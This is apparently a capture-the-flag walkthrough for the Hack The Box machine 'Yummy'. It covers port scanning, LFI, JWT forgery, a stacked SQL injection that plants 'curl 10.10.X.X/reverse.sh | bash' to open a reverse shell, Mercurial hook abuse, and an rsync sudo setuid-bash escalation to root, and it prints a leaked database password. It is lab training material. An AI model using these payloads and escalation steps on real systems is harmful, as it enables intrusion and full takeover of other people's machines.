



Yummy
Portscan
nmap -sVC -p- --open -sS --min-rate 5000 -v -n --stats-every=5s -Pn -oN yummy_scan <IP>
On the main page there is a Login and a Register
whatweb for see technologies
http://yummy.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@yummy.htb], Frame, HTML5, HTTPServer[Caddy], IP[10.10.11.36], Lightbox, Script, Title[Yummy]
I register my username
I reserve a table
We intercept the request EXPORT
I see that it is vulnerable to LFI
ANOTHER METHOD
Intercept the JWT by intercepting the login REQUEST by accessing /admindashboard
Decoded the Token https://jwt.io/
There is a vulnerability in variable n
I create a JWT as an admin
I change it in the REQUEST I intercepted and access the dashboard as an admin

Within app_backup.sh a zip is mentioned in /var/www/backupapp.zip
We download this file and it gives us the creds of the db
db_config = {
'host': '127.0.0.1',
'user': 'chef',
'password': '3wDo7gSRZIwIHRxZ!',
'database': 'yummy_db',
'cursorclass': pymysql.cursors.DictCursor,
'client_flag': CLIENT.MULTI_STATEMENTS
}
The URL may be vulnerable to a SQLI

URL INJECTION
:
http://yummy.htb/admindashboard?s=aa&o=ASC%3B++select+"ping%3B"+INTO+OUTFILE++'/data/scripts/dbstatus.json'+%3B
http://yummy.htb/admindashboard?s=aa&o=ASC%3B++select+"curl+10.10.X.X/reverse.sh+|bash%3B"+INTO+OUTFILE++'/data/scripts/fixer-v___'+%3B

Now we're like the mysql user
To pass on to the user www-data we create a reverse shell and rename it as app_backup.sh
reverse obtained as www-data
In the /var/www/ folder we find an interesting directory and .zip so we will start with the foothold

In the path /app-qatesting/.hg/store/data I find the app.py.i file
Containing the password of the qa user and the chef user
With qa creds I access the user
I access the /home/qa/ directory and find the user's flag
To have a more secure and stable connection I create a key pair with ssh-keygen
I do sudo -l and I see that I can execute a comoando as dev
hg → is the executable for Mercurial, a distributed version control system (similar to git).
So escalation I think would be dev → root
I access the /tmp folder to be able to create "without restrictions"
I create the .hg directory, change the persimmis, and copy .hgrc into the .hg directory
Then I modify the hgrc file by making a call to my reverse shell
Create a revshell.sh in /tmp
chmod 777 revshell.sh
Exeto el comando sudo -u dev /usr/bin/hg pull /home/dev/app-production/
And I get the dev shell
I do sudo -l and see that I can run a command like root
(root : root) NOPASSWD: /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* /opt/app/
What rsync does is make a copy of the directories and files from path A to path B
What I do is copy bash within the path in which the copy is made
and I give setuid (Set User ID) permissions on the file, which allows you to run the file with the owner's permissions.
Then I run the command that was mentioned in the sudo -l by changing the file owner to root and making a bash call
sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* --chown root:root /opt/app/ && /opt/app/bash -p